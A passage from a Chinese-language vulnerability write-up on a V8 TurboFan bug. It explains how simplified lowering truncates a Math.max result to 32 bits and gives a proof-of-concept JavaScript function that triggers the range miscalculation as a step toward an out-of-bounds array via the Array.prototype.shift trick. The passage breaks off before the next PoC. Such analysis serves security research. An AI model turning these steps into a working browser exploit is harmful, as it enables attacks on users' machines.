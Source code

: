 ```
visit #41: SpeculativeNumberLessThan
change: #41:SpeculativeNumberLessThan(@0 #14:NumberConstant) from kRepTaggedSigned to kRepWord32:no-truncation (but identify zeros)
change: #41:SpeculativeNumberLessThan(@1 #56:Select) from kRepWord64 to kRepWord32:no-truncation (but identify zeros)

```

此时正在处理`#41`结点的输入结点`#56`，根据我们对源码的分析，这两个结点之间会插入一个`TruncateInt64ToInt32`结点，看一下`Simplified lowering`阶段的`IR`图：  
![](http://blog-0x2l.oss-cn-beijing.aliyuncs.com/img/Pasted-image-20210721152300.png)  
因为`#72`结点的存在，`Math.max`函数的返回值会被截断为`32`位；又因为后继结点的类型为有符号数`TypeCheckKind::kSignedSmall`，所以如果截断后的返回值正好使用了符号位（诸如`0xFFFF_FFFF`转换为二进制为`1111 1111 1111 1111 1111 1111 1111 1111`，最高位为 1），那么就会发生整数下溢（诸如`Math.max(0, 0xFFFF_FFFF)`返回值为`-1`)。

漏洞利用
====

从整数溢出到越界读写
----------

[zer0con2021](https://github.com/singularseclab/Slides/blob/main/2021/chrome_exploitation-zer0con2021.pdf) 上讲解了`Array.prototype.shift()`相关的`Trick`，可以通过整数溢出来构造一个长度为`-1(0xFFFF_FFFF)`的数组。但是我们必须满足两个条件：

*   `len != 0 && len <= 100`
*   `len : Range(-a, 0)`  
    先看一下我们的原始`poc`：  
    ![](http://blog-0x2l.oss-cn-beijing.aliyuncs.com/img/Pasted-image-20210727144211.png)  
    此时的返回值为`-1`，`Range`为`(0, 4294967295)`。将`poc`稍稍修改一下：

```
function foo(flag) {
let x = -1;
if (flag) x = 0xFFFF_FFFF;
let z = 0 - Math.max(0, x);
 
return z;
}
 
console.log(foo(true));
%PrepareFunctionForOptimization(foo);
console.log(foo(false));
%OptimizeFunctionOnNextCall(foo);
//%SystemBreak();
console.log(foo(true));

```

此时的`Range`如下：  
![](http://blog-0x2l.oss-cn-beijing.aliyuncs.com/img/Pasted-image-20210727150549.png)  
返回值也已经变成了`1`，现在已经符合`Array.prototype.shift() Trick`的利用条件了，我们编写如下的`poc`：
